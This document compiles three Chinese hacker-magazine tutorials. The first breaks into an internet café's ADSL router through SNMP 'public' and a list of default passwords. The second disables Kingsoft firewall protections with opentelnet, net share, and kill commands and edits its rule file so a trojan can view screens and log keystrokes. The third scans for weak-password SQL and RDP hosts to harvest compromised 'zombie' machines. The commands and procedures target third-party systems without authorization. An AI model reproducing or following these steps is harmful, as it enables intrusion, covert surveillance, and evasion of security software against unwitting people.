一天用 QQ 在网上闲聊，正聊得口若悬河，运指如飞，恰巧来了一个不速之客，一连给我发了几条难以入目的话。也许有许多网友受过此等对待，因此气上心头，决定给这个不速之客一个小小的教训。

分析一下，在 QQ 上聊天的网友大多都在网吧上网。对于网吧的入侵，最重要的是对网关的成功入侵。如果你可以成功地取得网关，也就是服务器的 Administrator 权限，那你也就控制了整个网吧。现在网吧大多都采用 ADSL 或 DDN 专线上网，而主机的操作系统一般都是 Windows 2000 Server，这也给我们能够成功入侵创造了物质条件。

好了，言归正传。我们应该如何入侵呢？我用的 QQ 是装有显 IP 补丁的，对方的 IP 地址轻松搞定，就是 61.xxx.xxx.xxx。先 ping 一下对方的 IP，初步判断一下对方的操作系统，返回的信息 TTL 值竟会是 250，难道对方用的是 Unix 或是 Linux，真是令人难以置信。好了，先不管它使用的是什么操作系统了，先看看有没有漏洞吧。我拿出小榕的流光 4.7 扫了一下，能用的参数都加上了，可是结果令人失望，没有任何漏洞，而且只开了 80 和 23 两个端口。用 IE 打开那个 IP 地址，出现一个对话框，要求输入用户名和密码，telnet 进 23 号端口也没有什么收获。到现在为止我还不能判断对方的操作系统，难道对方安装了什么好的防火墙？令人百思不得其解。

第一轮的初步扫描，我并没有得到什么收获。我决定对这个 IP 地址进行第二轮的精细扫描。我拿出 X-Scan v2.3，对这个 IP 又进行了一次扫描，这次终于有收获了，如图 1 所示的扫描结果。

从操作系统上看到，原来是 ASR688 的 ADSL 在作怪，原来这就是什么都扫不到的原因。

这里给大家介绍一下 ASR688 这款 ADSL modem 的一些情况：这是一款路由式的 ADSL modem，它本身就相当于一台服务器，具有自动拨号、网络地址/端口地址翻译、域名服务等功能，同时具有防火墙功能。



图 1

这样一个路由器式的“猫”，给我的入侵造成很多的不便，该怎么办呢？难道真的没有办法了吗？振作精神仔细分析一下扫描的结果，端口还是那两个，试了一些常用密码，没用，不能进入。猛然间看到扫描到了一个致命的漏洞，让我眼睛一亮：SNMP 的密码为 public。这个可以让我们了解主机许多有用信息，获得的信息如图 2 所示。


何巍巍



图 2

得知这个“猫”的用户名是 admin 和许多有用的信息，但是这些信息也没有什么真正的意义。用这个用户名同时试了几个简单的密码，像 123456、admin、root 等弱口令，但没能进入，难道真的没有办法了吗？我就不信这个了。过了好久……这时，嘀一嘀一嘀一我的 QQ 响了，有人给我发了一条信息。他说在《黑客 X 档案》上看过我的文章，想问我硬盘保护卡怎样破解。硬盘保护卡？这一下提醒了我，硬盘保护卡不是有初始密码吗？这个 ASR688 不也是有初始用户名和密码吗？好像这个用户名是 admin，密码是 xdsl*1234。好了，试试吧，打开 IE，填上那个 IP，在弹出的对话框中填上用户名和密码，如图 3 所示。



图 3

等了一会竟然进入了管理 ADSL modem 的界面，如图 4 所示。只可惜全是英文的，哈哈，不管怎样，成功地进了这台路由器，还是欣喜若狂。这下这家网吧不是让我宰割了吗？想让它下线，不只是举手之劳，还有更狠的就是改他的管理员密码等等，但是我什么都没有做，不是说好人有好报吗？黑客并不等于就是做坏事嘛！



因为这种管理在大多数的路由器中都采用，实用性很高，可以增加你对技术的掌握。但对于英文不太好的朋友，最好就用第一种了，加上一个金山快译或东方快车就可以轻松搞定了。对于如何管理我就不多说了，大家自己慢慢琢磨吧。

我分析了一下，我之所以能够成功入侵，最重要的是对信息的把握。ASR688 的初始管理用户名和密码多为 admin 与 xdsl*1234，但是一些水货或是旧款的多为 user 和 adsl、user1 和 adsl、user 和 benq1234、benq 和 benqadsl。如果得到的 sysname 为 user 或 benq，那你也可以试试上面的几个初始密码。再强调一点，就是扫描到系统上显示为 ACER688 的，它的初始密码也是这个，你也可以试试。

如何管理这个路由呢？这个路由器可以用三种方式进行管理：
- 80 端口的 http 管理；
- 23 号端口的 telnet；
- 21 端口的 ftp。

这三种管理方式最好用的是 http 了，但是我还是喜欢用第二种，如图 5 所示。



我这次能够成功，并没有利用什么新的漏洞，也没有利用什么真正的技术。前些日子有网友给我写信，问怎样用最新的溢出程序来入侵 mssql？我扫描了一下，他说的那台主机竟会有权限是 user 的弱口令，可以得到只读共享的网页备份，从网页的源文件中就可以得到 mssql 的 sa 密码，然后用 xp_cmdshell 提高权限就可以得到 admin 权限了。这又何乐而不为呢？我们学习的是黑客技术，不只是学学入侵某台服务器或是某个漏洞，关键的是要掌握入侵的技术，学习入侵时的思维，提高自己的洞察能力，这样我们的技术才会提高。

最后我希望网吧的管理员能够认清网络安全的重要性，把一些初始密码改掉，把一些弱口令加强，这样就不会让一些人有机可乘，让网友安全上网。

注意：本文所写的入侵过程在 Win2000 平台下实现。

## 对开有金山防火墙、金山网镖的远程主机的入侵

张少华

随着防毒技术的发展，木马越来越难发挥其用武之地，特别是一些较有名的木马，如冰河等。现在金山是比较流行的查杀病毒的软件，今天我们就用冰河连接开有金山防火墙、金山网镖的远程主机。

### 所需工具：tlist.exe、kill.exe、冰河、log.exe

把冰河的服务端脱壳再加壳（这个过程应该都会了吧，具体过程参考相关文章），目的是为了逃避金山防火墙的实时监控。运用中发现，金山对病毒、木马比较灵敏，一有病毒、木马马上报警，不管它们在哪儿，而江民杀毒王却要运行木马时才报警（这还有个屁用）。

制作冰河服务端时要注意（至少我的机子上是这种情况）：这个服务端程序不能已经配置过。就是说，如果服务端是先配置，后脱壳，再加壳，在这个过程中脱壳时就会出错，如图 1 所示。



把 tlist.exe、kill.exe、冰河服务端（bh.exe）、log.exe（清理战场的）都放在 C:\ 下，然后利用 opentelnet.exe 打开远程主机的 telnet，执行命令：

```
opentelnet \\192.168.0.2 009 009pass 0 8888
```

009 是账号，009pass 是密码，0 是 NTLM 值，8888 是端口号，如图 2 所示。



然后键入命令：

```bash
telnet 192.168.0.2 8888
```

先共享一个文件夹：

```bash
net share 009$=c:\winnt /unlimited
```

009$ 是共享名。

然后在本地机的网上邻居地址栏输入：`\\192.168.0.2\009$`，再把 tlist.exe、kill.exe、bh.exe、log.exe 复制过去。

在 telnet 窗口用 `tlist` 命令查看对方当前进程，看到有 KAVSvc.EXE、KAVPFW.EXE，如图 3 所示。



这说明对方开有金山防火墙、金山网镖，如何是好？

冰河服务端对金山防火墙应该没问题，只是金山网镖怎么办？如果现在把它 kill 了，那下次重启后，冰河还是没用？金山网镖里有一个“应用程序访问网络权限设置”，怎么让冰河加进去呢？

于是我先在本地机上试验。刚开始还以为金山网镖把设置信息放在注册表里，于是拿出我的 REGSHOT（注册表监视工具），我让 QQ、X-Scan 通过金山网镖的“应用程序访问网络权限设置”，结果一无所获，如图 4 所示。



是不是把设置信息放在文件里了？于是我看了一下金山网镖的目录，有一个名为 Rules 的目录引起了我的注意。进去有 6 个数据文件，再拿出 FileMon 工具，选择“编辑”→“过滤/高亮”，输入 KAVPFW.EXE，然后退出金山网镖，找到是 AppRule.dat 文件，如图 5 所示。



为了证明是否正确，我把 AppRule.dat 改名为 009.dat（注意要先退出金山网镖，再改名），然后再运行金山网镖，发现原来“应用程序访问网络权限设置”的信息没有了，说明找对了。

好，现在把对方的 AppRule.dat 文件复制到本地，覆盖本地原文件（先退出金山网镖），然后运行金山网镖，查看对方的设置，添加冰河访问网络的权限。你可以在本地运行木马，然后添加进去，再卸载木马。或者在 C:\WINNT\System32 目录下添加一个 sysdll32.exe 文件（随便什么文件，只要文件名为 sysdll32.exe），然后点击金山网镖的“添加应用程序权限规则”，把 sysdll32.exe 加入，再选择允许，然后退出金山网镖。

在 telnet 窗口先用 `tlist` 命令查看进程，然后用 `kill -f 1032` 杀掉金山网镖进程，如图 6 所示。



然后把 AppRule.dat 复制到远程主机覆盖（一定要先退出金山网镖，再复制文件）。再运行冰河服务端程序，然后就可以用冰河控制这台机子了，看他的屏幕、键盘记录都可以，只是不要太过分。搞定，别忘了临走时清理一下战场：“log...”


## Win98 也能玩入侵

小毅

相信有不少喜欢黑客技术、但又刚刚接触该技术的朋友，因为对 Win2000 不太熟悉等原因，至今仍然在使用着 Win98。但 Win98 的网络功能实在是太弱了，别的不说，单单是 NET 命令居然连 IPC 都用不上，就让人觉得讨厌了！不过别着急，等我给大家介绍一种权宜之计吧。

### 任务目的：

寻找一些 Win2000 的肉鸡，以便以后的入侵实践能够轻松使用这些肉鸡来实现。

> **LOOK 注意**：其实真正用 Win98 本身来实现入侵是很难的，但我们可以控制别人的 Win2000 来实现（可以说是跳板吧），这招就叫做“借刀杀人”。

### 任务所需要的工具：

- SuperScanV3.0、X-Scan V2.3
- SqlExec、酷虎 3389 端口攻击器
- UltraEditV8.0、小榕的克隆账号用的 ca

首先，打开 SuperScanV3.0，在“开始”和“停止”那里填入一个 IP 段，然后在“所有端口从”两个空都填上 1433，点击“开始”按钮。经过漫长的等待后，我们可以扫到许多开放了 1433 端口的主机，然后点击“删除”去掉多余的 IP，点击“保存”就可以了，如图 1 所示。

> **LOOK 注意**：我们之所以要扫 1433 端口，是因为开放 1433 端口的计算机都开放着 SQL-Server 服务，而我们要利用的正是 SQL 的 sa 弱口令。



图 1

保存结果后，我们可以看到其格式为图 2 所示。用 UltraEdit 打开这个文件，把文件中除 IP 地址以外的内容都选上，按键盘上的 `Ctrl+R` 把这些地方替换成空的内容。



图 2

> **LOOK 注意**：因为这个文件我们是要在 X-Scan 中使用的，这样的格式 X-Scan 是识别不了的，所以要把 IP 地址以外的内容都去掉才能识别。

打开 X-Scan，在“扫描模块”那里把其它的内容都去掉，只选择扫描“开放端口”。然后在“扫描参数”→“基本设置”那里点击“从文件获取主机列表”，把我们刚才替换好的文件选择上。而“端口相关设置”的“待检测端口”则只填上 3389（知道这有什么用了吧！）。OK，不一会儿就扫完了，哈哈，看来成绩还不错嘛！如图 3 所示。

接下来把结果保存成为文件后，再像刚才那样使用 UltraEdit 把文件中除 IP 地址以外的内容替换掉保存即可。

